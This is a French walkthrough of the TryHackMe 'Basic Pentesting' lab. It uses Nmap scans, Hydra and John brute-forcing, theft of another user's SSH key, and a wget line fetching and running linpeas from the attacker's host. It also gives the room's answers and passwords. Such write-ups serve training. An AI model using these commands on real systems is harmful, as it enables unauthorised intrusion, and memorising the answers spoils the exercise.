









---
tags:
  - Pentest
  - TryHackMe
  - Facile
  - Nmap
  - Gobuster
  - Enum4linux
  - Hydra
  - Linpeas
  - John
---

# Basic Pentesting - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | Pentest, brute-force, élévation de privilèges, SSH, web, Samba |
| **Prérequis** | Bases Linux, utilisation de Nmap, énumération web, brute-force de mots de passe, SSH, élévation de privilèges |

## Contexte et objectifs

Dans cette room, l'objectif est de réaliser un pentest basique sur une machine Linux exposant plusieurs services. Il s'agit de découvrir des informations sensibles, d'obtenir un accès utilisateur, puis d'escalader les privilèges pour accéder à des comptes plus sensibles.

!!! info "À propos de cette room"
    Cette room est idéale pour s'entraîner à la méthodologie d'un test d'intrusion : reconnaissance réseau, énumération, exploitation de faiblesses (mots de passe faibles, clés privées exposées), et élévation de privilèges. Elle met l'accent sur la logique d'attaque et l'utilisation d'outils standards.

---

## Méthodologie

### Étape 1 : Découverte des services exposés avec Nmap

Avant toute attaque, il est essentiel de cartographier les services ouverts sur la cible. Cela permet de prioriser les vecteurs d'attaque.

On scanne tous les ports TCP (`-p-`) avec détection de version (`-sV`) et scripts par défaut (`-sC`) pour obtenir une vue complète de la surface d'attaque :

```bash
nmap -sC -sV -p- <IP_cible>
```

[](./screen/basicpentesting/WindowsTerminal_O0N9zJ7K9N.png)

On découvre les ports ouverts suivants :
- 22/tcp : SSH
- 80/tcp : HTTP (site web)
- 139/tcp et 445/tcp : Samba (partages Windows)
- 8009/tcp : AJP13 (Apache JServ Protocol)
- 8080/tcp : HTTP (Tomcat)

### Étape 2 : Recherche de répertoires cachés sur le site web

Maintenant que nous savons qu'un serveur web tourne sur le port 80, on visite la page d'accueil : `http://<IP_cible>/`. La page par défaut d'Apache s'affiche - rien d'exploitable en surface. On lance une énumération de répertoires pour découvrir des chemins cachés.

```bash
gobuster dir -u http://<IP_cible>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

!!! tip "Pourquoi utiliser Gobuster ?"
    Les administrateurs laissent parfois des dossiers non référencés dans le site, accessibles uniquement par leur nom. Gobuster permet de les découvrir par force brute.

[](./screen/basicpentesting/WindowsTerminal_GzgunK1OwW.png)

Le scan révèle un répertoire caché : `/development`.

!!! success "Réponse"
    **Quel est le nom du répertoire caché ?** → `development`

### Étape 3 : Analyse du contenu du répertoire caché

Ayant trouvé le dossier `/development`, il est logique d'explorer son contenu à la recherche de fichiers texte ou de notes de développeurs.

En visitant `http://<IP_cible>/development`, on trouve deux fichiers :
- `dev.txt` : mentionne l'utilisation d'Apache Struts 2.5.12 et la configuration de Samba.
- `j.txt` : indique qu'un utilisateur dont le nom commence par "J" a un mot de passe faible.

[](./screen/basicpentesting/msrdc_PEKhYzrrwj.png)

Ces informations suggèrent qu'il existe un utilisateur avec un mot de passe facilement devinable.

### Étape 4 : Énumération des utilisateurs Samba avec Enum4linux

Puisque Samba est actif, il est pertinent de l'utiliser pour obtenir la liste des utilisateurs du système.

```bash
enum4linux -a <IP_cible>
```

!!! info "Qu'est-ce qu'Enum4linux ?"
    Enum4linux est un outil d'énumération pour les services Samba/Windows. Il permet de récupérer des informations sur les utilisateurs, groupes, partages, etc.
[](./screen/basicpentesting/WindowsTerminal_uwdeK4ZyAX.png)

Le résultat affiche deux utilisateurs :
- jan
- kay

!!! success "Réponse"
    **Quel est le nom de l'utilisateur ?** → `jan`

### Étape 5 : Brute-force du mot de passe SSH avec Hydra

Maintenant que nous avons un nom d'utilisateur, il est logique de tester si ce compte utilise un mot de passe faible, comme suggéré dans les notes.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP_cible> ssh
```
- `-l jan` : utilisateur ciblé
- `-P` : liste de mots de passe à tester

!!! tip "Pourquoi Hydra ?"
    Hydra est un outil de brute-force rapide et efficace pour tester des combinaisons login/mot de passe sur de nombreux services, dont SSH.
[](./screen/basicpentesting/WindowsTerminal_5mAvZmpBlk.png)

Hydra trouve le mot de passe : `armando`.

!!! success "Réponse"
    **Quel est le mot de passe ?** → `armando`

### Étape 6 : Connexion SSH au serveur

Avec les identifiants trouvés, nous pouvons maintenant accéder à la machine via SSH.

```bash
ssh jan@<IP_cible>
```

!!! success "Réponse"
    **Quel service utilisez-vous pour accéder au serveur ?** → `SSH`

### Étape 7 : Énumération locale pour l'élévation de privilèges

Une fois connecté, il est important de chercher des moyens d'obtenir des privilèges plus élevés. L'utilisation de scripts d'automatisation comme Linpeas permet de gagner du temps.

On transfère le script depuis notre machine d'attaque avec un serveur HTTP Python, puis on le récupère depuis la cible avec wget :

```bash
# Sur la machine d'attaque (dans le dossier contenant linpeas.sh) :
python3 -m http.server 8000

# Sur la machine cible, dans la session SSH :
wget http://<VOTRE_IP>:8000/linpeas.sh -O /dev/shm/linpeas.sh
chmod +x /dev/shm/linpeas.sh
/dev/shm/linpeas.sh
```
[](./screen/basicpentesting/WindowsTerminal_5Tg36CNhHw.png)

Linpeas signale la présence d'une clé privée SSH dans `/home/kay/.ssh/id_rsa`, appartenant à l'utilisateur `kay`.

!!! success "Réponse"
    **Quel est le nom de l'autre utilisateur trouvé ?** → `kay`

### Étape 8 : Exploitation de la clé privée SSH de kay

Puisque la clé privée de kay est lisible, nous pouvons la copier sur notre machine pour tenter de l'utiliser.
[](./screen/basicpentesting/WindowsTerminal_QK0F5BFyp0.png)

1. Copier le contenu de `/home/kay/.ssh/id_rsa` dans un fichier local `id_rsa`.
2. Donner les bons droits :
    ```bash
    chmod 600 id_rsa
    ```

Cependant, la clé est chiffrée par un mot de passe. Il faut donc le retrouver.

### Étape 9 : Brute-force du mot de passe de la clé privée avec John the Ripper

Pour casser le mot de passe de la clé privée, on la convertit d'abord au format John, puis on lance l'attaque.

```bash
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
[](./screen/basicpentesting/WindowsTerminal_udOBsJHgPl.png)

John trouve le mot de passe : `beeswax`.

### Étape 10 : Connexion SSH en tant que kay

Nous pouvons maintenant nous connecter en tant que kay grâce à la clé privée. SSH demande la passphrase de la clé (`beeswax`, trouvée à l'étape précédente) :

```bash
ssh -i id_rsa kay@<IP_cible>
```

Au prompt `Enter passphrase for key 'id_rsa':`, on saisit `beeswax`.

### Étape 11 : Lecture du fichier de mot de passe final

En tant que kay, on trouve un fichier `/home/kay/pass.bak` contenant le mot de passe final.

```bash
cat /home/kay/pass.bak
```
[](./screen/basicpentesting/WindowsTerminal_7euLDcPkXG.png)

!!! success "Réponse"
    **Quel est le mot de passe final obtenu ?**  
    → `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | Mot de passe faible, clé privée SSH exposée, fichiers sensibles accessibles |
| **Techniques utilisées** | Scan de ports, énumération de répertoires, brute-force clé SSH, élévation de privilèges via clé privée |
| **Outils employés** | Nmap, Gobuster, Enum4linux, Hydra, Linpeas, John the Ripper,  |

!!! abstract "Ce qu'il faut retenir"
    1. Toujours commencer par une reconnaissance complète pour identifier tous les services exposés.
    2. L'énumération et la recherche de fichiers cachés ou sensibles sont souvent la clé sur les machines débutantes.
    3. Les mots de passe faibles et les clés privées mal protégées restent des vecteurs d'attaque très courants.